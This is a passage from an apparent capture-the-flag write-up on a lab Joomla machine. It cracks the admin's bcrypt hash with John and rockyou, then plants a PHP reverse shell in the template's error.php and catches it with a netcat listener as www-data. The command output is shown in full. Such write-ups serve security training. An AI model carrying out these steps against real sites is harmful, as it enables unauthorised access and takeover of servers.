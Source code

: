 The "Super Duper User" is `admin`.

# #13 - Super Duper User! What is the password?

*Hint: Again, john and mysql hash password.*

The hash of the admin's password is `$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG`

Save it to `admin.hash` and crack it with John:

~~~
$ /data/src/john/run/john admin.hash --wordlist=/data/src/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
abcd1234         (?)
1g 0:00:00:07 DONE (2020-06-23 10:30) 0.1259g/s 136.0p/s 136.0c/s 136.0C/s bullshit..brownie
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

The password is `abcd1234`.

# #14 - At this point, you should be upload a reverse-shell in order to gain shell access. What is the owner of this session?

*Hint: Maybe use error.php page on a template? Of course try it and execute 'id' command.*

We are now able to authenticate with `admin:abcd1234` to the administration backend of Joomla. Let's create a webshell.

From the Control Panel go to `Configuration > Templates > Templates > Beez3 Details and Files`. Click on `error.php` to edit the code and replace it with a [PHP reverse shell](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz).

Open a listener (`rlwrap nc -nlvp 4444`) and in your browser, visit the error page (http://10.10.130.207:8080/templates/beez3/error.php). You should now have a reverse shell.

~~~
$ rlwrap nc -nlvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.130.207.
Ncat: Connection from 10.10.130.207:42946.
Linux ubuntu 4.15.0-55-generic #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 01:36:59 up  1:53,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
/bin/sh: 0: can't access tty; job control turned off
$ SHELL=/bin/bash script -q /dev/null
www-data@ubuntu:/$ whoami
whoami
www-data
www-data@ubuntu:/$ 
~~~
